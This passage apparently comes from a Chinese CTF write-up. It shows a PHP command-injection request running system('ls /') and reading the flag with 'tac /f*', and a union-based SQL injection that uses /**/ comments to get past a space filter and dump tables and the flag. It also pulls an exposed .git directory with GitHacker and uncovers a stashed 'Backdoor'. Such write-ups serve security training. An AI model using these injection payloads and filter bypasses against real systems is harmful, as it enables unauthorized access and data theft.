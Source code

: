 ```python
#GET
/pizwww.php?new[]=1
#POST
star[]=2&cmd=system("ls /");
```

```python
#GET
/pizwww.php?new[]=1
#POST
star[]=2&cmd=system("tac /f*");
```

得到flag

---

### 谢谢皮蛋 plus

> 这个题我本来想才用上一题的思路，继续使用报错注入，但是发现关键词被ban了，于是就使用联合注入
>
> 发现空格被ban了，才用/**/注入

Payload：这里注释不能使用`--+`

```python
-1"/**/union/**/select/**/1,database()#
# Name: "1"  Position: "ctf"
-1"/**/union/**/select/**/1,group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema='ctf'#
# Position: "Fl4g,hexo"
-1"/**/union/**/select/**/2,group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='Fl4g'#
#Position: "id,des,value"
-1"/**/union/**/select/**/2,group_concat(value)from/**/ctf.Fl4g#
#得到flag
```

----

### PangBai 过家家（2)

其实根据题目提示就可以知道是git泄露，当然可以扫一下，这里利用GitHacker这个工具把git拉下来

```bash
Githacker --url http://eci-2ze0ppx36y19pn3nmce7.cloudeci1.ichunqiu.com/.git/ --output ns
```

在当前目录下我使用了`git log` 和`git diff`命令没有发现什么可用信息，于是使用

```bash
git stash list
# stash@{0}: On main: Backdoor
#发现有东西
git stash pop
```
